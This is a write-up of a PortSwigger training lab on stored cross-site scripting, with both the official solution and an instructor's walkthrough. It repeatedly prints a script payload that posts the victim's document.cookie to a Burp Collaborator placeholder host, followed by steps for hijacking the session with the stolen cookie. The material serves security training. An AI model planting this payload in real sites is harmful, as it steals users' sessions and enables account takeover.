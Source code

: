 
--- 

# 🧪 Lab: Exploiting Cross-Site Scripting to Steal Cookies

**Lab URL:** https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies

## 🎯 High-Level Summary

**Objective:** Exploit a stored XSS vulnerability in the blog comment section to exfiltrate the victim's session cookie and use it to impersonate the victim.

**Key Techniques & Concepts:**

- **Stored Cross-Site Scripting (XSS)**
    
- **JavaScript Fetch API for Data Exfiltration**
    
- **Burp Collaborator for External Interactions**
    

**What Makes This Vulnerable?**

- The web application reflects untrusted input into the blog comments without proper sanitization.
    
- The vulnerable context allows arbitrary JavaScript execution on the victim's browser.
    

---

## 🧑‍💻 PortSwigger Solution

1. **Set Up Burp Collaborator:**
    
    - Open **Burp Suite Professional** and navigate to the **Collaborator** tab.
        
    - Click **Copy to Clipboard** to obtain a unique Burp Collaborator subdomain.
        
2. **Submit Malicious Comment:**
    
    - Post a comment on the blog using the following payload, replacing `BURP-COLLABORATOR-SUBDOMAIN` with the copied subdomain:
        
    
    ```
    <script>
    fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
    });
    </script>
    ```
    
3. **Trigger the XSS:**
    
    - Wait for the victim to view the comments section where the payload was injected.
        
4. **Capture the Cookie:**
    
    - Go back to the **Collaborator** tab and click **Poll now**.
        
    - Confirm receipt of the HTTP request containing the victim's session cookie in the request body.
        
5. **Session Hijacking:**
    
    - Copy the captured session cookie.
        
    - Use **Burp Proxy** or the browser's developer tools to replace your own session cookie with the stolen one.
        
    - Navigate to `/my-account` to verify you have successfully impersonated the victim.
        

---

## 📚 Instructor Solution

### Step 1: Confirm XSS Vulnerability

- Navigate to the blog post comment section and submit a basic test payload:
    
    ```
    <script>alert(1)</script>
    ```
    
- Confirm the alert box appears, verifying the XSS vulnerability.
    

### Step 2: Construct the Payload

- Submit the following JavaScript payload in a blog comment:
    
    ```
    <script>
    fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
    });
    </script>
    ```
    

### Step 3: Use Burp Collaborator

- Go to **Burp Collaborator**, copy the public subdomain, and insert it into the payload.
    
- Click **Poll now** after submission to verify incoming requests.
    

### Step 4: Capture and Use the Cookie

- Extract the session cookie from the captured HTTP request.
    
- Open the **Application** tab in the browser's Developer Tools.
    
- Go to **Storage > Cookies** and replace the session cookie with the captured one.
    
- Change the URL to `/my-account` to access the victim's session.
    

✅ **Lab completed successfully.**

---

## 💡 Explanation of Payloads and Techniques

### **How the Payload Works:**

- The `<script>` tag executes JavaScript in the victim's browser.
    
- `fetch()` makes an HTTP POST request to the attacker's **Burp Collaborator** server.
    
- `mode: 'no-cors'` is used to bypass CORS restrictions (explained below).
    
- `document.cookie` sends the current session cookie to the attacker.
    

### **What is CORS?**

- **CORS (Cross-Origin Resource Sharing)** is a browser security feature that restricts web pages from making requests to a domain different from the one serving the web page.
    
- By default, web browsers block cross-origin requests due to security concerns.
    

### **Why Use** `**mode: 'no-cors'**`**?**

- The `mode: 'no-cors'` setting in the `fetch()` API prevents the browser from blocking the request.
    
- However, when using `no-cors` mode, the response body cannot be read. This is acceptable here because the goal is to **send** data, not retrieve it.
    

### **Why This Works:**

- The blog comments feature directly reflects user input without sanitization.
    
- The victim automatically loads the comment, executing the XSS payload.
    
- The cookie is accessible in the JavaScript context due to the lack of `HttpOnly` flag on the session cookie.
    

---

## 🛠️ Tools and Commands

- **Burp Suite Professional:** Collaborator, Repeater
    
- **Payload:**
    
    ```
    <script>
    fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
    });
    </script>
    ```
    
- **Resources:** [PortSwigger XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)